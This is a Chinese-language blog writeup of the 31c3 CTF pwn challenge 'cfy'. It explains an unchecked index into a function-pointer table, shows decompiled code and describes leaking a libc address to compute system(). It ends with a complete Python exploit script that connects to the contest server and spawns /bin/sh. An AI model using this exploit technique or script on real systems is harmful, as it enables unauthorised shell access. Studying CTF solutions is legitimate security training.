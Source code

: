 ```yaml
---
layout: post
title: 31c3ctf cfy writeup
catagories: [ctf]
tags: [ctf, writeup, 31c3ctf, pwn]
---
```


> 任意内存访问漏洞

```c
    if ( v5 == 3 )
      goto LABEL_5;
    printf("\nPlease enter your number: ", 0x400A0FLL);
    fflush(stdout);
    fgets(buf, 1024, stdin);
    LODWORD(v3) = ((int (__fastcall *)(signed __int64, signed __int64))parsers[2 * v5])(0x6010E0LL, 1024LL);
```

问题就在这句话，v5可控，当v5大于3时，即可任意内存访问。

遇到第一个问题是，想把plt里加载的实际地址读出来怎么办，代码给了这么一段：

```c
__int64 __fastcall from_ptr(__int64 a1)
{
  return **(_QWORD **)a1;
}
```

大致思路，先调用上面这个函数，读取plt表里printf,或fgets，或某一个函数的地址，取最后12位。
找一找对应的`libc.so`的版本，好像主办方比较人性化，一直用的ubuntu14.10的系统。

用上面这个值，计算出`system`函数的地址，然后再把`0x6010E0LL`这个buffer里填上`/bin/sh`，即可。

比较锉的利用代码：

```python
#!/usr/bin/env python2

from zio import *
import struct

#io = zio("./cfy", timeout=9999)
io = zio(("188.40.18.73", 3313), timeout=9999)

io.read_until("3) quit\n")
io.write("7\n")

pltgets = 0x0000000000601030
gets_plt = struct.pack("Q", pltgets)

from_ptr = 0x0000000000400785
from_func = struct.pack("Q", from_ptr)

buf = gets_plt + 8*"A" + from_func + "\n"
raw_input()
io.read_until_timeout(0.5)
io.write(buf)

putvar      = 0x0000000000070940
fgetsvar    = 0x000000000006ED90
sysvar      = 0x0000000000044B30
binsh       = 0x000000000017CBDB

data = io.read_until_timeout(0.5)
hexindex = data.find("hex: ")

rgets = data[hexindex+7: hexindex+19]
print ".....", rgets
rgets = int(rgets, 16)

rsystem = rgets + sysvar - fgetsvar
rbinsh = rgets + binsh - fgetsvar

rsystem = struct.pack("Q", rsystem)

io.write("7\n")
io.read_until_timeout(0.5)
buf  = "/bin/sh" + 9*"\x00" + rsystem
io.write(buf)
io.interact()
```
